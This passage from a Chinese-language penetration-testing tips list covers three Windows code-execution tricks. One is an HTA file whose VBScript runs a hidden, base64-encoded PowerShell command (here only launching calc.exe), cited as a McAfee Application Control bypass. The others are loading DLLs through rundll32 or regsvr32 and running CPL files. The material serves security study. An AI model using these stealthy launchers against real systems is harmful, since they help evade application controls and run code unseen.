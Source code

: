 参考： 

《A dirty way of tricking users to bypass UAC》

---

### Tips 9.  hta执行vbs，加载powershell

test.hta：

```
<HTML> 
<HEAD> 
<script language="VBScript">
    Set WshShell = CreateObject("WScript.Shell")
    Connect="powershell -nop -windows hidden -E YwBhAGwAYwAuAGUAeABlAA=="
    WshShell.Run Connect, 4, true
</script>
<HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize">
</HEAD> 
<BODY> 
</BODY> 
</HTML> 
```

参考： 

《Bypass McAfee Application Control——Code Execution》

---

### Tips 10. 通过c#编写dll & 通过rundll32.exe或者regsvr32加载dll

默认情况下，c#不可以声明导出函数，但可通过添加UnmanagedExports实现

当然，通过c#编写的dll，dll需要在对应版本的.NET环境才能正常运行，通过c++编写的dll更加通用

通过rundll32.exe或者regsvr32能够加载dll，但要求dll包含特定的导出函数

参考： 

《Code Execution of Regsvr32.exe》

---

### Tips 11. Windows下cpl文件介绍

本质上是DLL文件，后缀名为cpl，包含一个导出函数CPLApplet(c实现可不指定)

执行方法：

(1)双击直接运行

(2)cmd

```
rundll32 shell32.dll,Control_RunDLL test.cpl
```
